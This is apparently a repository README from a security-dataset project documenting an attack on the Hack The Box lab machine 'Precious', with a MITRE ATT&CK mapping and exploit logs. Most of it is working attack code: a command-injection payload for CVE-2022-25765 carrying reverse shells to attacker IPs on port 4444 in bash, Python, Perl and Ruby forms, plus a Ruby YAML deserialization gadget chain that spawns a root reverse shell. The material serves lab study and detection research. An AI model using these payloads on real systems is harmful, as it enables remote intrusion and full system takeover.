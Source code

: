 # Cyber4ML_Framework application in "Precious" HTB machine

## Framework application details

|Documentation|MITRE ATT&CK|Network Analysis|Log Analysis|
|-|-|-|-|
|Yes|Yes|Yes|Yes|

|Attacker Level|Environment|VPN|Attacker IP|Victim IP|
|-|-|-|-|-|
|Average|Linux|Yes|10.10.16.36|10.10.11.189|

**Average:** The knowledge, behavior and attack-timing of the attacker is average.

## Documentation

Documentation of the attack: [Precious Documentation](https://github.com/stevendamianakis/HackTheBox_Writeups/blob/main/Machines/Precious/README.MD)

## MITRE ATT&CK mapping

Below, we map the attack to the MITRE ATT&CK Enterprise framework.

| Tactic | Technique | Subtechnique | Command/Script | CVE/CWE |
| - | - | - | - | - |
| Initial Access | Exploit Public-Facing Application | - | (1) | CVE-2022-25765/CWE-78 |
| Execution | Exploitation for Client Execution | Unix Shell | (1) | - |
| Persistence | Valid Accounts | Default Accounts | (2) | - |
| Privilege Escalation | Exploitation for Privilege Escalation | - | [dependencies.yml](https://github.com/stevendamianakis/Cyber4ML_Framework/blob/main/HackTheBox/Precious/dependencies.yml) | CVE-2017-18342/CWE-502 |

#### Commands/Scripts
- (1)
```
http://%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```
- (2)
```
ssh henry@10.10.11.189
```

#### Alternative Commands/Scripts
- (1)
```
http://%20`bash -c 'exec bash -i &>/dev/tcp/10.10.16.36/4444 <&1'`  
```

```
http://%20`export RHOST="10.10.16.36";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'`
```

```
http://%20`perl -e 'use Socket;$i="10.10.16.36";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("bash -i");};'`
```

```
http://%20`perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.10.16.36:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`
```

```
http://%20`python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.16.36",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'`
```

```
http://%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.16.36",4444))'`
```

```
http://%20`ruby -rsocket -e'exit if fork;c=TCPSocket.new("10.10.16.36","4444");loop{c.gets.chomp!;(exit! if $_=="exit");($_=~/cd (.+)/i?(Dir.chdir($1)):(IO.popen($_,?r){|io|c.print io.read}))rescue c.puts "failed: #{$_}"}'`
```

- dependencies.yml
```
---
- !ruby/object:Gem::Installer
   i: x
- !ruby/object:Gem::SpecFetcher
   i: y
- !ruby/object:Gem::Requirement
 requirements:
   !ruby/object:Gem::Package::TarReader
   io: &1 !ruby/object:Net::BufferedIO
     io: &1 !ruby/object:Gem::Package::TarReader::Entry
        read: 0
        header: "abc"
     debug_output: &1 !ruby/object:Net::WriteAdapter
        socket: &1 !ruby/object:Gem::RequestSet
            sets: !ruby/object:Net::WriteAdapter
                socket: !ruby/module 'Kernel'
                method_id: :system
            git_set: "bash -c 'exec bash -i &>/dev/tcp/10.10.16.36/4444 <&1'"
        method_id: :resolve
```

## Network Analysis

Pcap file of the attack: [Capture File](https://github.com/stevendamianakis/Cyber4ML_Framework/blob/main/HackTheBox/Precious/attack_capture.pcapng)

## Log Analysis

```
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

```
sh: 1: reading: not found
Traceback (most recent call last):
        33: from /opt/update_dependencies.rb:17:in `<main>'
        32: from /opt/update_dependencies.rb:10:in `list_from_file'
        31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
        30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
        29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        28: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        27: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        26: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:313:in `visit_Psych_Nodes_Document'
        25: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        24: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        23: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        22: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:141:in `visit_Psych_Nodes_Sequence'
        21: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `register_empty'
        20: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `each'
        19: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `block in register_empty'
        18: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        17: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        16: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        15: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:208:in `visit_Psych_Nodes_Mapping'
        14: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:394:in `revive'
        13: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:402:in `init_with'
        12: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:218:in `init_with'
        11: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:214:in `yaml_initialize'
        10: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:299:in `fix_syck_default_key_in_requirements'
         9: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_reader.rb:59:in `each'
         8: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_header.rb:101:in `from'
         7: from /usr/lib/ruby/2.7.0/net/protocol.rb:152:in `read'
         6: from /usr/lib/ruby/2.7.0/net/protocol.rb:319:in `LOG'
         5: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
         4: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
         3: from /usr/lib/ruby/vendor_ruby/rubygems/request_set.rb:388:in `resolve'
         2: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
         1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)
```
